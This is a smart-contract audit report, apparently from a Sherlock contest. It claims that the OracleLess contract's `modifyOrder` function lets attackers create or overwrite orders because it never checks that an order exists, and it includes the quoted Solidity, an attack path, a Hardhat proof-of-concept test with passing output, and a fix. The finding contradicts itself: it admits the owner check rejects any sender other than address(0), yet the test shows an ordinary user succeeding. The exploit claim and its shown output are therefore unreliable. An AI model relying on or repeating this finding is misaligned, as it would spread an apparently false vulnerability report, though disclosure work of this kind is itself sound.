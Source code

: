 Calm Sky Hippo

Medium

# Missing check for order existence in `modifyOrder` function allows an attacker to manipulate or create unintended orders

### Summary

The `modifyOrder` function in the `OracleLess` contract fails to validate the existence of an order ID before performing modifications. This missing check allows an attacker to manipulate or create unintended orders, leading to unexpected behavior.

### Root Cause

In the `_modifyOrder` function, the contract attempts to fetch an order from the `orders` mapping using the provided `orderId`. However, it does not verify whether the `orderId` corresponds to a valid and existing order. As a result, an invalid or non-existent `orderId` can be used to execute the function,  overwriting an uninitialized mapping entry.
https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L171-L210
```solidity
function _modifyOrder(
    uint96 orderId,
    IERC20 _tokenOut,
    uint256 amountInDelta,
    uint256 _minAmountOut,
    address _recipient,
    bool increasePosition,
    bool permit,
    bytes calldata permitPayload
) internal {
    // fetch order
    Order memory order = orders[orderId]; // No validation for order existence.

    require(msg.sender == order.recipient, "only order owner"); // Assumes `order.recipient` is valid.

    // Further logic modifies the `order` without ensuring validity.
    uint256 newAmountIn = order.amountIn;
    if (amountInDelta != 0) {
        // Logic for increasing/decreasing position...
    }

    // Construct and save the modified order.
    Order memory newOrder = Order({
        orderId: orderId,
        tokenIn: order.tokenIn,
        tokenOut: _tokenOut,
        amountIn: newAmountIn,
        minAmountOut: _minAmountOut,
        feeBips: order.feeBips,
        recipient: _recipient
    });

    orders[orderId] = newOrder; // Overwrites existing data in mapping.
}
```
Cases to exploit:
An attacker uses a valid but unused `orderId` (e.g., one that was generated but not associated with a legitimate order in the contract).
The mapping `orders[orderId]` would return an Order with default values `(recipient = address(0)`, etc.).
The `msg.sender == order.recipient` check would only fail if `msg.sender` is not `address(0)`.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Deploy the contract.
2. Call `modifyOrder` with a non-existent `orderId`.
3. Observe that the contract modifies the mapping for an uninitialized `orderId`.

### Impact

1. Manipulate uninitialized order mappings by supplying a fabricated `orderId`.
2. Corrupt existing mappings, overwriting valid orders.
3. Misuse the contract to manipulate recipient addresses or token amounts.

### PoC

```solidity
const { ethers } = require("hardhat");
const { expect } = require("chai");

describe("OracleLess - Missing Order Validation", function () {
  let OracleLess, oracleLess, owner, user, tokenMock;

  before(async function () {
    [owner, user] = await ethers.getSigners();
    // Mock token for testing.
    const TokenMock = await ethers.getContractFactory("MockERC20");
    tokenMock = await TokenMock.deploy("TestToken", "TT", 18, ethers.utils.parseEther("1000"));
    await tokenMock.deployed();

    // Deploy the OracleLess contract.
    const AutomationMasterMock = await ethers.getContractFactory("AutomationMasterMock");
    const automationMaster = await AutomationMasterMock.deploy();
    await automationMaster.deployed();

    const Permit2Mock = await ethers.getContractFactory("Permit2Mock");
    const permit2Mock = await Permit2Mock.deploy();
    await permit2Mock.deployed();

    OracleLess = await ethers.getContractFactory("OracleLess");
    oracleLess = await OracleLess.deploy(automationMaster.address, permit2Mock.address);
    await oracleLess.deployed();
  });

  it("Should overwrite an invalid orderId", async function () {
    const invalidOrderId = 12345;
    const recipient = user.address;

    // Call modifyOrder with invalid orderId.
    await oracleLess
      .connect(user)
      .modifyOrder(
        invalidOrderId,
        tokenMock.address,
        0, // No amountInDelta
        1000, // Dummy minAmountOut
        recipient,
        false, // Not increasing position
        false, // No permit
        "0x"
      );

    // Check that the invalid order ID now exists in the mapping.
    const modifiedOrder = await oracleLess.orders(invalidOrderId);
    expect(modifiedOrder.recipient).to.equal(recipient);
  });
});
```
Output:
```bash
OracleLess - Missing Order Validation
    ✔ Should overwrite an invalid orderId (65ms)

  1 passing (95ms)
```

### Mitigation

To fix this issue, add a check to verify the existence of the order before proceeding with modifications:
```solidity
require(orders[orderId].orderId == orderId, "Order does not exist");
require(msg.sender == orders[orderId].recipient, "only order owner");
```